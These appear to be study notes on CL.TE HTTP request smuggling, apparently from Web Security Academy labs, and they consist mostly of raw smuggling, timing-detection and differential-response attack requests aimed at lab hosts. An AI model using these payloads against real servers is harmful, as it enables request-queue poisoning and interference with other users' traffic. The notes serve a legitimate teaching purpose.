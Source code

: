 ## CL.TE vulnerabilities

The front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header:

Smuggling request:
```http
POST / HTTP/1.1
Host: 0acd00da03a2776381c07ff100b10027.web-security-academy.net
Content-Length: 7
Transfer-Encoding: chunked

0

G
```

Request sent after get smuggled (the `G` sent before is prepended to `POST`):
```http
GPOST /post/comment HTTP/1.1
Host: 0acd00da03a2776381c07ff100b10027.web-security-academy.net

csrf=rMS2qQHV8HyyZJbcBKObOO78FbBQwIyZ&postId=5&comment=asd&name=asd&email=asd%40asd.asd&website=


HTTP/1.1 403 Forbidden
"Unrecognized method GPOST"
```

### Find CL.TE using timings

>[!note] Note
>Since the front-end server uses the `Content-Length` header, it will forward only part of this request, omitting the `G`. The back-end server uses the `Transfer-Encoding` header, processes the first chunk, and then waits for the next chunk to arrive. This will cause an observable time delay.

```http
POST / HTTP/1.1
Host: 0acd00da03a2776381c07ff100b10027.web-security-academy.net
Content-Length: 4
Transfer-Encoding: chunked

1
A
G
```

### Confirming CL.TE vulnerabilities using differential responses

Attack request:
```http
POST / HTTP/1.1
Host: 0a0000f7040caa64807e80a800d50021.web-security-academy.net
Cookie: session=YMVczDiZYma5L95S4fFbNXnGVYonnrlD
Content-Length: 30
Transfer-Encoding: chunked
Connection: close

0

POST /404 HTTP/1.1
foo: 
```

If the attack is successful, then the last two lines of this request are treated by the back-end server as belonging to the next request that is received.
This will cause the subsequent "normal" request to look like this:
```http
POST /404 HTTP/1.1
foo:POST / HTTP/1.1
Host: 0a0000f7040caa64807e80a800d50021.web-security-academy.net
Cookie: session=YMVczDiZYma5L95S4fFbNXnGVYonnrlD
Content-Length: 3

a=b
```